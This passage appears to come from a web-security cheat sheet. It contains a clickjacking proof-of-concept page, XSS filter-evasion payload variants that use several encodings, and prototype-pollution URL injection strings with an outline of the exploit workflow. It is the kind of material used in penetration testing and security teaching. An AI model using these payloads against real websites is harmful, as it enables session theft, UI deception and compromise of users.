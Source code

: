 <!DOCTYPE html>
<html>
<head>
<title>Clickjacking PoC</title>
</head>
<body>
<input type=button value="Click here to Win Prize" style="z-index:-1;left:1200px;position:relative;top:800px;"/>
<iframe src="https://example.com" width=100% height=100% style=”opacity: 0.5;”></iframe>
</body>
</html>

## Obfuscation using encodings

As example `<img src=1 onerror=alert()>`:

* backticks: `<img src=1 onerror=alert``>`
* caps: `<img src=1 oNeRRoR=alert()>`
* URL-encoding:  `%3c%69%6d%67%20%73%72%63%3d%31%20%6f%6e%65%72%72%6f%72%3d%61%6c%65%72%74%28%29%3e`
* HTML-entity-encoding: `&lt;img src=1 onerror=alert()&gt;`
* leading zeroes with dec or hex encoding: `<a href="javascript&#00000000000058;alert(1)">Click me</a>`
* hex encoding:  `<img src=x onerror="&#x61;lert(1)">`
* unicode encoding: `<img src=1 onerror=\u0061\u006c\u0065\u0072\u0074()>`

Best results can be achieved by combining all of them.

## Prototype pollution

Alters the prototype of some object in js. If there is unsafe assignment of prototype that can be influenced by injection, then a malicious content can be assigned to the object.

Workflow:

1. Find the source of injection. 

Possible injection methods:

```js

// into URL

/?__proto__[ping]=pong;--
/?__proto__.ping=pong;--

```

2. Find the sink (js function or DOM element) that can be accessed by the source.
3. Gadget exploit: a property passed into sink that can be executed.
